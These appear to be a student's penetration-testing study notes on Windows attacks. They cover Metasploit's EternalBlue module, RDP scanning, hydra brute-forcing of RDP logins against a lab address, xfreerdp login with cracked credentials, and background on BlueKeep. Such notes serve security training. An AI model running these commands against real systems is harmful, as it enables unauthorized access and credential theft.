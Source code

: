 #### Automatic Exploiting EternalBlue ####
+ Open <mark style="background: #FF5582A6;">msfconsole</mark>
	+ `search eternalblue`
		+ will have an option of a scanner or an exploit 
	+ `show options`
	+ `set RHOSTS IP`
	+ `run`
+ Now has the <mark style="background: #FF5582A6;">meterpreter</mark> session very quickly 

### Exploiting RDP ###

+ The Remote Desktop Protocol (<mark style="background: #BBFABBA6;">RDP</mark>) is a <mark style="background: #FFF3A3A6;">proprietary GUI remote access protocol </mark>developed by Microsoft and is used to remotely connect and interact with a Windows system.
+ RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
	+ Must be aware that they may move it to another port 
+ RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.
+ We can perform an <mark style="background: #ADCCFFA6;">RDP brute-force attack</mark> to identify legitimate user credentials that we can use to gain remote access to the target system.

<mark style="background: #FF5582A6;">msfconsole</mark> has a good RDP scanner to verify if a port is running RDP
+ can `search rdp_scanner` or `use auxiliary/scanner/rdp/rdp_scanner`
	+ `set RHOSTS IP`
	+ `set RPORT PORT_NUMBER`
+ Will say if it is running and some version information 

Then, <mark style="background: #D2B3FFA6;">hydra</mark> can be used to do a brute force
+ `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.3.25.177 -s 3333`
	+ notice that the port is specified with `-s` because it is not on its tradition 3389
	+ can also use the `-t` to limit the speed 

Once the credentials are discovered, can now use <mark style="background: #D2B3FFA6;">xfreerdp</mark> to connect 
+ in the CLI, `xfreerdp /u:administrator /p:qwertyuiop /v:10.3.25.177:3333`

### Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep) ###

Have previously used a brute-force attack, will now learn an <mark style="background: #FF5582A6;">inherent vulnerability</mark> 

#### BlueKeep ####
+ <mark style="background: #FF5582A6;">BlueKeep</mark> is the name given to an <mark style="background: #ADCCFFA6;">RDP vulnerability</mark> in Windows that could potentially allow attackers to <mark style="background: #FFF3A3A6;">remotely execute arbitrary code</mark> and gain access to a Windows system and consequently the network 
+ Made public by Microsoft in May 2019
+ BlueKeep takes advantage of a vulnerability in the Windows RDP protocol that allows attackers to <mark style="background: #FFF3A3A6;">gain access to a chunk of kernel memory</mark>, allowing them to remotely execute arbitrary code at the system level without authentication 
	+ Kernel is privileged, but can <mark style="background: #FFF3A3A6;">easily cause crashes</mark> 
+ A patch was released on May 14th, 2019
+ At the time of discovery, about 1 million systems worldwide were found to be vulnerable 
+ The BlueKeep vulnerability affects multiple versions of Windows:
	+ XP
	+ Vista
	+ Windows 7
	+ Windows Server 2008 & R2
